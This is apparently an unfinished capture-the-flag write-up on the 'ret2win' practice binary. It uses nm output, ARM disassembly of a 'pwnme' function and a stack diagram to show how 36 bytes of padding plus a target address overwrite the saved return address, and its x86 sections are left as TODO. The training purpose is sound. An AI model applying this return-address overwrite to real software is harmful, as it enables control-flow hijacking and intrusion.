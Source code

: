# ret2win

This is the first of the 8 challenges, it's also the simplest.
All binaries have the same vulnerability which is a buffer overflow in the `pwnme` function.

For this one, we can find the ret2win function by listing symbols of the file with nm.
```
$ nm ret2win
...
0000000000400756 t ret2win  # x86_64
...
0804862c t ret2win          # x86
...
000105ec t ret2win          # ARMv5
...
```
The objective become clear: return from `pwnme` into `ret2win`.

## x86_64: (`TODO)

## x86: (TODO)

## ARM:
```asm
00010570 <pwnme>:
   10570:	e92d4800 	push	{fp, lr}
   10574:	e28db004 	add	fp, sp, #4
   10578:	e24dd020 	sub	sp, sp, #32
...
000105b0 <pwnme + 0x40>:
   105b0:	e24b3024 	sub	r3, fp, #36
   105b4:	e3a02038 	mov	r2, #56
   105b8:	e1a01003 	mov	r1, r3
   105bc:	e3a00000 	mov	r0, #0
   105c0:	ebffff80 	bl	103c8 <read@plt>
...
000105d0 <pwnme + 0x60>:
   105d0:	e24bd004 	sub	sp, fp, #4
   105d4:	e8bd8800 	pop	{fp, pc}
```
As promised, there is a buffer overflow.
In ARMv5, the return address is stored in the `lr` register.
So in order to overwrite it, we need 36 bytes of padding.   
Original stack = `32 bytes buffer + fp + lr`   
Payload        = `36 bytes padding + ret2win address`
```bash
┌─────────────┐  ┌─────────────┐
│             │  │ 20 20 20 20 │ <- padding (36 bytes)
│             │  │ 20 20 20 20 │
│             │  │ 20 20 20 20 │
│             │  │ 20 20 20 20 │
│             │  │ 20 20 20 20 │
│             │  │ 20 20 20 20 │
│             │  │ 20 20 20 20 │
├─────────────┤  │ 20 20 20 20 │
│ fp          │  │ 20 20 20 20 │
├─────────────┤  ├─────────────┤
│ lr          │  │ 0x105ec     │ <- ret2win address
└─────────────┘  └─────────────┘
```
